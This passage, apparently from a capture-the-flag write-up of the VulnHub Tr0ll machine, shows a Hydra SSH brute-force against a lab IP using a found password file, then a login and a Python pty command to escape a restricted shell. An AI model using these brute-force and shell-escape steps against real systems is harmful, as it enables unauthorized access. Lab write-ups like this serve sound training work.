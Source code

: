 Pass.txt content.

```
root@lifesfun:~/vulnhub/tr0ll# cat Pass.txt 
Good_job_:)
```

Low Privilege Exploitation
--------------------------

### Hydra

After some experimenting with Good_job as a password, "Pass.txt" ended up being
the actual password.

```
root@lifesfun:~/vulnhub/tr0ll# hydra -L which_one_lol.txt -p Pass.txt ssh://192.168.20.150
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, 
or for illegal purposes.
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2019-09-15 20:30:11
[WARNING] Many SSH configurations limit the number of parallel tasks, 
it is recommended to reduce the tasks: use -t 4
[DATA] max 10 tasks per 1 server, overall 10 tasks, 10 login tries (l:10/p:1), ~1 try per task
[DATA] attacking ssh://192.168.20.150:22/
[22][ssh] host: 192.168.20.150   login: overflow   password: Pass.txt
1 of 1 target successfully completed, 1 valid password found
```

### SSH

After obtaining SSH password, it seems that commands in the shell do not work. The shell has to be escaped/upgraded. 
Python is used to escape restricted shell. However, after that the system terminates SSH session. It seems like there's a timer.

```
root@lifesfun:~/vulnhub/tr0ll# ssh overflow@192.168.20.150
overflow@192.168.20.150's password: 
Welcome to Ubuntu 14.04.1 LTS (GNU/Linux 3.13.0-32-generic i686)
$ whoami?
-sh: 1: whoami?: not found
$ echo $SHELL
/bin/sh
$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
$ python -c "import pty;pty.spawn('/bin/bash')"
overflow@troll:/$ whoami
overflow
                                                                               
Broadcast Message from root@trol                                               
        (somewhere) at 17:40 ...                                               
                                                                               
TIMES UP LOL!                                                                  
```
